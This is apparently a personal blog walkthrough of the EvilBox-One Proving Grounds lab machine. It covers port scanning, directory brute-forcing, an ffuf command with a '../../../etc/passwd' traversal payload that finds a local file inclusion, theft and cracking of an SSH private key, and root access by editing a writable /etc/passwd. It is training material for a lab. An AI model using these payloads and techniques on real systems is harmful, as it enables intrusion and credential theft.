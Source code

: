 ```yaml
---
title: "EvilBox-One Walkthrough"
date: 2023-9-19 
img_path: ../../assets/image
image: EVV15.png
categories: [Proving grounds, intermediate,root,]
tags: [ctf, nmap, passwd, enumeration, gobuster, LFI, ssh, Linux, PenTesting]     # TAG names should always be lowercase
---
```


> Welcome back to another writeup of the Proving Grounds Play lab machines and CTF challenge. Today, I am going to present EvilBox-One Walkthrough.**[EvilBox-One](https://portal.offsec.com/labs/play)**  is a Linux Machine from Offsec Proving Grounds rated as intermediate by the Community.. We shall start with `nmap` scan to see the open ports on the machine. We will later  use `gobuster` for directory brute force and later we shall login with `SSH`  which will give us the initial access to the system. Finally we shall do privilege escalation by exploiting incorrect permissions in `/etc/passswd`file to get root privileges.
{: .prompt-tip }

`Ready, set, boot and root!` 

## Scanning and Enumeration

I started with enumerating the host by running a port scan with Nmap, checking default scripts and testing for vulnerabilities.  We have used -sC for default 
scripts, -sV to enumerate all versions, -oA to output all format in a file called initial and finally it’s IP address. Here is the results:


```shell                              
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ nmap -sC -sV -oA initial  192.168.201.212
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-19 11:25 EAT
Nmap scan report for 192.168.201.212
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:95:50:0b:e4:73:a1:85:11:ca:10:ec:1c:cb:d4:26 (RSA)
|   256 27:db:6a:c7:3a:9c:5a:0e:47:ba:8d:81:eb:d6:d6:3c (ECDSA)
|_  256 e3:07:56:a9:25:63:d4:ce:39:01:c1:9a:d9:fe:de:64 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.21 seconds

```
                                                           
  We see `ssh` port 22 open and `http` port 80 open which is running an Apache 2.4.38 web server.   

  Looking at port 80 on the web browser, we see a default Apache2 debian page. 


  ![image](../../assets/image/posts/evilbox1/ev1.png)

  

  Looking at the robots.txt, I found a message saying . "Hello H4x0r" which might be a potential username.
  ![image](../../assets/image/posts/evilbox1/ev2.png)


  Since `http` port 80 is open, we need to do some directory bruteforcing and look at what directories are accessible. We're going to use `gobuster` which is a Directory/File, DNS and VHost busting tool written in Go. This took a little bit to run, but it did find something interesting. It found a file/folder called /secret.

  ```shell                                
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ gobuster dir -r -u http://192.168.201.212/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.201.212/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 280]
/.html                (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 10701]
/robots.txt           (Status: 200) [Size: 12]
/secret               (Status: 200) [Size: 4]
Progress: 32804 / 882244 (3.72%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 32814 / 882244 (3.72%)
===============================================================
Finished
===============================================================
  ```
 However that was nothing more than a blank page. So, I further bruteforced to find other paths inside of it.
 ![image](../../assets/image/posts/evilbox1/ev3.png)

Gobuster really took some time but i finally found a file called /secret/evil.php. 

```shell                                    
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ gobuster dir -r -u http://192.168.201.212/secret/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.201.212/secret/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 280]
/.php                 (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 4]
/evil.php             (Status: 200) [Size: 0]
Progress: 53868 / 882244 (6.11%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 53878 / 882244 (6.11%)
===============================================================
Finished
===============================================================
                                                                   
```
However, I had no idea what to do with this file, since it really displayed nothing, but an empty page when accessed.
![image](../../assets/image/posts/evilbox1/ev4.png)
The script is empty and since I have nowhere to go from there, I fuzzed the GET parameter on it.

```shell                                                                                                                                     
┌──(root㉿kali)-[/home/th3g3ntl3m4n/PGPLAY/Evilbox1]
└─ ffuf -c -r -u http://192.168.201.212/secret/evil.php?FUZZ=../../../etc/passwd  -w /opt/SecLists/Discovery/Web-Content/common.txt -fs 0 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.201.212/secret/evil.php?FUZZ=../../../etc/passwd
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

[Status: 200, Size: 1398, Words: 13, Lines: 27, Duration: 3522ms]
    * FUZZ: command

:: Progress: [4715/4715] :: Job [1/1] :: 196 req/sec :: Duration: [0:00:59] :: Errors: 0 ::


```
Up to now, we found that `command` allows the inclusion of local files of the target.
![image](../../assets/image/posts/evilbox1/ev5.png)

We have to search sensitive files that would give me access to the machine. Since I have a user, I tried checking files from its home directory. Luckily, I found a public key in the /home/mowree/.ssh/authorized_keys file. Then, I checked if I can access the private key and I could.

![image](../../assets/image/posts/evilbox1/ev7.png)
Ok great, so, I am going to copy this and save it as id_rsa on my local machine and I am going to use the famous ssh2john to extract the hash and see if I can crack it.
The private key is encrypted by a passphrase. Now, We have to crack the passphrase. So, I copied the content to a file “id_rsa” on my local machine,
 ![image](../../assets/image/posts/evilbox1/ev8.png)

After coping the id_rsa to my machine i changed its permissions

![image](../../assets/image/posts/evilbox1/ev6.png)

We have to crack the hash of the passphrase. Therefore, we need a tool called ssh2john to generate the hash.
![image](../../assets/image/posts/evilbox1/ev9.png)


Now that I had the hash, I used John the Ripper to crack the hash, that gave us the passphrase to decrypt the id_rsa file.
![image](../../assets/image/posts/evilbox1/ev10.png)





## Initial Access

After successfully cracking the passphrase. Now, we can easily log in.
 ![image](../../assets/image/posts/evilbox1/ev11.png)

We have managed to get the user flag now we need to find a way to  escalate our privileges to root.
 ![image](../../assets/image/posts/evilbox1/ev12.png)


## Privilege Escalation

`Let's get root`
After some research i found that we can write as a low-privileged user to /etc/passwd?
 ![image](../../assets/image/posts/evilbox1/ev13.png)

I used openssl to generate the hash of the word “root”.
 ![image](../../assets/image/posts/evilbox1/ev14.png)


 Then, I copied the hash to the /etc/passwd file of the target. I updated the password of the user root as follows.

 ![image](../../assets/image/posts/evilbox1/ev15.png)


 We will use the password “root”  we created with openssl to get access to the root user.
  ![image](../../assets/image/posts/evilbox1/ev16.png)

We now have to find the final flag to finish the challenge. We need to change the current directory to root and find the flag file, which can be seen in the screenshot given below.
  ![image](../../assets/image/posts/evilbox1/ev17.png)

  ## Conclusion
  
And with that, we have successfully completed the CTF challenge for EvilBox-One machine. I hope you’ve enjoyed this machine and this EvilBox-One walkthrough.

Did you find another way to attack this machine? Do you think I did something wrong or that you would have done it differently?  Let’s help everyone learn.

If you are enjoying these posts, consider buying me a cup of coffee. I spend a lot of time creating these posts that I know will help others, so any support you can provide will help me stay on track.

